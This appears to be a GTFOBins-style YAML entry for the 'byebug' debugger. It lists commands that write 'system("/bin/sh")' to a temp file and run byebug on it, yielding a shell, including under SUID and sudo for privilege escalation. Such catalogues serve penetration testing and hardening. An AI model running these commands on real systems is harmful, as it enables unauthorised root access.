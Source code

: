```yaml
---
functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo 'system("/bin/sh")' > $TF
        byebug $TF
        continue
  limited-suid:
    - code: |
        TF=$(mktemp)
        echo 'system("/bin/sh")' > $TF
        ./byebug $TF
        continue
  sudo:
    - code: |
        TF=$(mktemp)
        echo 'system("/bin/sh")' > $TF
        sudo byebug $TF
        continue
---
```

